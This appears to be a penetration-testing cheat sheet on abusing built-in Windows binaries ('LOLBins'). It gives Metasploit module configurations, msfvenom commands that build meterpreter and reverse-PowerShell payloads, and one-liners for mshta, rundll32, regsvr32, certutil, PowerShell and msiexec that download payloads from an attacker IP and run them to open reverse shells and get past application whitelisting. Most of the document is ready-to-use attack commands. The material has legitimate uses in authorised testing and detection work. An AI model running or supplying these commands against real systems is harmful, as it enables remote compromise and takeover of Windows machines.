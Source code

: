 # ⭕ LOL Binaries

## General Concept

Living Off the Land (LOL) binaries are the native Microsoft binary applications that are preinstalled on windows systems and are almost always available for us to use. these can be as simple as the echo command or be used for more advanced stuff like downloading and executing files, converting exe to cert or other interesting things that an attacker can leverage to bypass defense mechanisms.

Generally speaking, when we want a bin/reverse shell we go looking for the specific binaries that can download and execute our payloads. [LOLBAS ](https://lolbas-project.github.io)is a great collection of all known LOL binaries and we can search the collection for binaries with specific capabilities that we want by using a slash '/' and the name of the capability in the search bar for example /execute will show us all binaries that can execute code or scripts.

### For Download

{% embed url="https://lolbas-project.github.io/#/download" %}

### For Execute

{% embed url="https://lolbas-project.github.io/#/execute" %}

## Example Tools

**Mshta.exe :** Launch HTA attack via HTA Web Server of Metasploit

**Rundll32.exe :** Launch Rundll32 Attack via SMB Delivery of Metasploit

**Regsvr32.exe :** Launch Regsvr32 via Script Web Delivery of Metasploit

**Certutil.exe :** Launch MSbuild Attack via Msfvenom C# shellcode

**Powershell.exe :**

* Launch cscript.exe via Powershell
* Launch Batch File Attack via Powershell

**Msiexec.exe :** Launch msiexec attack via msfvenom

## Mshta.exe

Mshta.exe runs the Microsoft HTML Application Host, the Windows OS utility responsible for running **HTA**( HTML Application) files. HTML files that we can run JavaScript or VBScript with. You can interpret these files using the Microsoft MSHTA.exe tool.

Metasploit contain the “HTA Web Server” module which generates malicious hta file. This module hosts an HTML Application (HTA) that when opened will run a payload via Powershell. When a user navigates to the HTA file they will be prompted by IE twice before the payload is executed.

```
use exploit/windows/misc/hta_server
msf exploit(windows/misc/hta_server) > set srvhost 192.168.1.109
msf exploit(windows/misc/hta_server) > set lhost 192.168.1.109
msf exploit(windows/misc/hta_server) > exploit
```

```
mshta.exe http://192.168.1.109:8080/5EEiDSd70ET0k.hta
```

## Rundll32.exe

Rundll32.exe is associated with Windows Operating System that allows you to invoke a function exported from a **DLL**, either 16-bit or 32-bit and store it in proper memory libraries.

**Launch Rundll32 Attack via SMB Delivery of Metasploit**

Metasploit also contain the “SMB Delivery” module which generates malicious dll file. This module serves payloads via an SMB server and provides commands to retrieve and execute the generated payloads. Currently supports DLLs and Powershell.

```
use exploit/windows/smb/smb_delivery
msf exploit(windows/smb/smb_delivery) > set srvhost 192.168.1.109
msf exploit(windows/smb/smb_delivery) > exploit
```

Now run the malicious code through rundll32.exe on the victim machine (vulnerable to RCE) to obtain meterpreter sessions.

```
rundll32.exe \\192.168.1.109\vabFG\test.dll,0
```

## Regsvr32.exe

Regsvr32 is a command-line utility to register and unregister OLE controls, such as **DLLs** and ActiveX controls in the Windows Registry. Regsvr32.exe is installed in the %systemroot%\System32 folder in Windows XP and later versions of Windows.

_Syntax:_

```
Regsvr32 [/s][/u] [/n] [/i[:cmdline]] <dllname>
```

RegSvr32.exe has the following command-line options:

* /u – Unregister server
* /i – Call DllInstall passing it an optional \[cmdline]; when it is used with
* /u, it calls dll to uninstall
* /n – do not call DllRegisterServer; this option must be used with
* /s – Silent; display no message boxes

**Launch Regsvr32 via Script Web Delivery of Metasploit**

***

This module quickly fires up a web server that serves a payload. The provided command which will allow for a payload to download and execute. It will do it either specified scripting language interpreter or “squiblydoo” via regsvr32.exe for bypassing application whitelisting. The main purpose of this module is to quickly establish a session on a target machine when the attacker has to manually type in the command: e.g. Command Injection.

Regsvr32 uses “squiblydoo” technique for bypassing application whitelisting. The signed Microsoft binary file, Regsvr32, is able to request a .sct file and then execute the included PowerShell command inside of it. Both web requests (i.e., the **.sct file and PowerShell** download/execute) can occur on the same port. “PSH (Binary)” will write a file to the disk, allowing for custom binaries to be served up to be downloaded/executed

```
use exploit/multi/script/web_delivery
msf exploit (web_delivery)>set target 3
msf exploit (web_delivery)> set payload windows/meterpreter/reverse_tcp
msf exploit (web_delivery)> set lhost 192.168.1.109
msf exploit (web_delivery)>set srvhost 192.168.1.109
msf exploit (web_delivery)>exploit
```

```
regsvr32 /s /n /u /i:http://192.168.1.109:8080/xo31Jt5dIF.sct scrobj.dll
```

## Certutil.exe

Certutil.exe is a command-line program that is installed as part of Certificate Services. We can use this tool to execute our malicious **exe file** in the target machine to get a meterpreter session.

**Launch certutil Attack via Msfvenom**

Generate a malicious executable (.exe) file with msfvenom and **start multi/handler** to get the reverse shell of the victim’s machine.

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.109 lport=1234 -f exe > shell.exe
```

Now, to dump configuration information or shell.exe file files with certutil. you can follow below syntax:

```
use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.109
msf exploit(multi/handler) > set lport 1234
msf exploit(multi/handler) > exploit
```

```
certutil.exe -urlcache -split -f http://192.168.1.109/shell.exe shell.exe & shell.exe
```

## **Batch File**

PowerShell allows the client to execute **bat file**_._

```
msfvenom -p cmd/windows/reverse_powershell lhost=192.168.1.109 lport=4444 > 1.bat
```

```
nc -nvlp 4444
```

Then execute the following command on the remote side to get netcat session.

```
// Some powershell -c "IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.1.109/1.bat'))
```

## **Cscript**

PowerShell allows the client to execute **cscript.exe** to run **wsf, js** and **vbscript.**

```
msfvenom -p cmd/windows/reverse_powershell lhost=192.168.1.109 lport=1234 -f vbs > 1.vbs
```

Then execute the following command on the remote side to get a meterpreter session.

```
powershell.exe -c "(New-Object System.NET.WebClient).DownloadFile('http://192.168.1.109/1.vbs',\"$env:temp\test.vbs\");Start-Process %windir%\system32\cscript.exe \"$env:temp\test.vbs\""
```

```
use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.109
msf exploit(multi/handler) > set lport 1234
msf exploit(multi/handler) > exploit
```

## Msiexec.exe

As we all are aware that Windows OS comes installed with a Windows Installer engine which is used by **MSI packages** for the installation of applications. The executable program that interprets packages and installs products is Msiexec.exe.

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.109 lport=1234 -f msi > 1.msi
```

```
use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.109
msf exploit(multi/handler) > set lport 1234
msf exploit(multi/handler) > exploit
```

```
msiexec /q /i http://192.168.1.109/1.msi
```
